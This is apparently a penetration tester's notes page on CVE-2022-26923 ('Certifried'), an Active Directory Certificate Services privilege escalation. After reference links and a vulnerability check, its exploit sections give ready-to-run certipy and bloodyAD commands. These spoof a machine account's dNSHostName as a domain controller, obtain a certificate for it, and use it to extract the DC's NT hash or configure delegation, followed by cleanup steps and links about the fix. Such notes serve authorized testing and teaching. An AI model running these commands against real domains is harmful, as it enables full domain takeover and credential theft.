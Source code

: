 ```yaml
---
description: CVE-2022-26923
---
```


# dNSHostName Spoofing (Certifried)

- [https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/](https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/)
- [https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1](https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1)
- [https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e](https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e)
- [https://github.com/aniqfakhrul/certifried.py](https://github.com/aniqfakhrul/certifried.py)
- [https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25](https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25)




## Check

If there's an object SID printed when requesting a certificate based on the User or Machine templates, the AD environment is **not** vulnerable:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template User -dc-ip 192.168.1.11
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 120
[*] Got certificate with UPN 'snovvcrash@megacorp.local'
[*] Certificate object SID is 'S-1-5-21-1230029644-1443616230-1161330039-2139'  <== NOT vulnerable
[*] Saved certificate and private key to 'snovvcrash.pfx'
```




## Exploit

Create a new machine account with `dNSHostName` containing FQDN of a DC:

```
$ certipy account create -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user FAKEMACHINE -dns DC01.megacorp.local
```

Or change `dNSHostName` property manually for an already pwned machine account, e.g. via [pre2k](/pentest/infrastructure/ad/pre-created-computers-abuse#acl-abuse-on-pre-windows-2000-computers) (will definitely break stuff!):

```
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -spns ''
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -dns DC01.megacorp.local
```

Request a certificate on behalf of that machine account with spoofed `dNSHostName`:

```
$ certipy req -u 'FAKEMACHINE$@megacorp.local' -p 'M4chinePassw0rd!' -target CA01.megacorp.local -ca CorpCA -template Machine -dc-ip 192.168.1.11
```



### Abuse PKINIT

Authenticate with the obtained certificate and get DC's NT hash via PKINIT:

```
$ certipy auth -pfx dc01.pfx -dc-ip 192.168.1.11
```



### Abuse RBCD

- [https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)

Authenticate with obtained certificate and configure RBCD on a DC via [bloodyAD](https://github.com/CravateRouge/bloodyAD) to allow delegation to the fake machine account:

```
$ openssl pkcs12 -in dc01.pfx -out dc01.pem -nodes
$ python bloodyAD.py -d megacorp.local -c ":dc01.pem" --host 192.168.1.11 setRbcd 'FAKEMACHINE$' 'DC01$'
```



### Clean Up

If `dNSHostName` was modified for an existing machine account, roll back the changes:

```
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -dns PWNEDMACHINE.megacorp.local
$ certipy account update -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user PWNEDMACHINE -spns WSMAN/pwnedmachine.MEGACORP.LOCAL,WSMAN/pwnedmachine,TERMSRV/pwnedmachine.MEGACORP.LOCAL,TERMSRV/pwnedmachine,RestrictedKrbHost/pwnedmachine,HOST/pwnedmachine,RestrictedKrbHost/pwnedmachine.MEGACORP.LOCAL,HOST/pwnedmachine.MEGACORP.LOCAL
```

{% hint style="info" %}
A list of SPNs to backup can be taken from a BH dump:

```
$ cat 20230301144823_computers.json | jq -r '.data[].Properties | select(.name == "PWNEDMACHINE.MEGACORP.LOCAL") | .serviceprincipalnames'
```
{% endhint %}




## About the Fix

- [https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/](https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/)
- [https://github.com/GhostPack/Certify/commit/71636c435f2e5e7d8d0770154464f44da356ca42](https://github.com/GhostPack/Certify/commit/71636c435f2e5e7d8d0770154464f44da356ca42)
- [https://elkement.blog/2022/06/13/defused-that-san-flag/](https://elkement.blog/2022/06/13/defused-that-san-flag/)
- [https://elkement.blog/2022/05/20/how-to-add-a-subject-alternative-name-safely/](https://elkement.blog/2022/05/20/how-to-add-a-subject-alternative-name-safely/)
- [https://elkement.blog/2023/03/30/lord-of-the-sid-how-to-add-the-objectsid-attribute-to-a-certificate-manually/](https://elkement.blog/2023/03/30/lord-of-the-sid-how-to-add-the-objectsid-attribute-to-a-certificate-manually/)
